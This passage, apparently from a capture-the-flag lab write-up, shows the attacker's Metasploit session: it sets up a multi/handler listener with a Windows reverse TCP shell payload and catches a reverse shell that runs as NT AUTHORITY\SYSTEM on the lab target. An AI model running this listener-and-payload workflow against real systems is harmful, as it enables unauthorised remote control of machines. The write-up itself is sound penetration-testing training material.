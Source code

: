 3. Get the connection on our listener

    ```bash  
    kali@kali:~/Desktop/tools/win$ msfconsole

    # cowsay++
     ____________
    < metasploit >
     ------------
           \   ,__,
            \  (oo)____
               (__)    )\
                  ||--|| *

           =[ metasploit v5.0.97-dev                          ]
    + -- --=[ 2043 exploits - 1105 auxiliary - 344 post       ]
    + -- --=[ 562 payloads - 45 encoders - 10 nops            ]
    + -- --=[ 7 evasion                                       ]

    Metasploit tip: View advanced module options with advanced

    msf5 > use multi/handler
    [*] Using configured payload generic/shell_reverse_tcp
    msf5 exploit(multi/handler) > set payload windows/shell/reverse_tcp
    payload => windows/shell/reverse_tcp
    msf5 exploit(multi/handler) > set lhost 10.10.14.24
    lhost => 10.10.14.24
    msf5 exploit(multi/handler) > run

    [*] Started reverse TCP handler on 10.10.14.24:4444
    [*] Encoded stage with x86/shikata_ga_nai
    [*] Sending encoded stage (267 bytes) to 10.10.10.180
    [*] Command shell session 1 opened (10.10.14.24:4444 -> 10.10.10.180:49709) at 2020-07-28 11:32:36 -0400

    Microsoft Windows [Version 10.0.17763.107]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Windows\system32>whoami
    whoami
    nt authority\system
    ```

And we are root(or system as we are on windows).